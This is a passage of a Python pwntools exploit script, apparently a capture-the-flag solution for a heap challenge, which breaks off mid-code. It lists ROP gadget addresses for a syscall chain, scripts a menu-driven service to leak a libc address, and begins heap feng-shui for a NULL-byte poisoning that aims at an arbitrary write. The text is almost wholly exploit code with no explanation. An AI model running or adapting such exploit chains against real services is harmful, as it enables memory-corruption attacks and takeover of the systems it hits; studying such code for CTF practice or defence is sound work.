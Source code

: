 ```python
POP_RSP = 0x001bb53b            # pop rsp; ret;
POP_RAX = 0x001284f0            # pop rax; ret;
POP_RDI = 0x001bc021            # pop rdi; ret;
POP_RSI = 0x001bb317            # pop rsi; ret;
POP_RDX_POP_RBX = 0x00175548    # pop rdx; pop rbx; ret;
SYSCALL = 0x00177e81            # syscall;

#
# FUNCTIONS
#
def add(size, data = b"*"*0x10, title = b"T"*0x10):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendafter(b"Title: ", title)
    io.sendafter(b"Data: ", data)

def edit(idx, data):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"Index: ", str(idx).encode())
    io.sendafter(b"Data: ", data)

def delete(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"Index: ", str(idx).encode())

def merge(idx1, idx2):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"index: ", str(idx1).encode())
    io.sendlineafter(b"index: ", str(idx2).encode())

def consolidate():
    payload = b"0" * 0x1000 + b"9"
    io.sendlineafter(b"> ", payload)

#
# EXPLOIT
#
def main(HOST, PORT):
    global io

    context.log_level = "WARNING"
    while True:
        io = remote(HOST, PORT)

        # Get libc leak
        io.sendlineafter(b"> ", b"+")
        io.recvuntil(b"choice: ")
        libc.address = int(io.recvline().strip()) - 0x80057

        #
        # HEAP FENG-SHUI
        #

        # Add chunks to prepare metadata space (idx: 0, 1, 2)
        for i in range(3):
            add(0x418, f"CHUNK{i}".encode(), f"META_CHUNK{i}".encode())

        delete(0)
        add(0x428, b"EXTRA_BARRIER", b"META_EXTRA_BARRIER") # idx: 0
        add(0x448, b"FAKE", b"META_FAKE")                   # idx: 3

        # Vuln chunk, it will trigger the NULL poison
        # and provide the target metadata for arbitrary write
```